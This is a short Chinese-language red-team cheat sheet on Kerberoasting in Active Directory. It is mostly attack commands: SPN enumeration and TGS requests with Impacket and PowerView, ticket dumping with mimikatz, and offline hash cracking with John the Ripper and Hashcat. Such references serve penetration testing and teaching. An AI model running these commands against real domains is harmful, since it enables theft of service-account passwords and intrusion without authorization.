 ```yaml
---
description: 基于Kerberos认证 / 获取
---
```


# ✔️ Kerberoasting攻击

## 先决条件

* 已经获得目标域内的基本立足点（普通用户权限即可）
* 需要目标域内用户账户的SPN
* 需要获取到服务票据（TGS）
* 暴破工具 + 字典文件

## 常用工具

### Impacket

* 常用脚本：GetUserSPNs.py

```bash
# 识别SPN
python3 GetUserSPNs.py target.com/svc_tgs:xxxxxxxxxxxxxx -dc-ip 10.10.xxx.xxx
# 请求服务票据TGS
python3 GetUserSPNs.py target.com/svc_tgs:xxxxxxxxxxxxxx -dc-ip 10.10.xxx.xxx -request
```

### Powershell

* 常用脚本：PowerView.ps1

```powershell
# 识别SPN
Get-NetUser -username "svc_tgs" -SPN | select samaccountname, primarygroupid, serviceprincipalname
```

### mimikatz.exe

```powershell
mimikatz.exe
# 先提升权限
privilege::debug
# 获取当前的所有票据并导出
sekurlsa::tickets /export
# 将导出的.kirbi文件转换成txt文件，在用john the ripper或者hashcat进行离线暴破
```

### John the Ripper

```bash
# 离线暴破
john --format=krb5tgs hash.txt rockyou.txt
```

### Hashcat

```bash
# 离线暴破
hashcat -m 13100 hash.txt rockyou.txt
```

{% hint style="info" %}
Kerberoasting攻击在内网渗透中很常见，本质上是通过获取目标域内的服务账户的服务票据（TGS），然后通过离线爆破来还原出明文密码。该攻击方式仅需要有目标域内的普通用户账户权限即可。
{% endhint %}
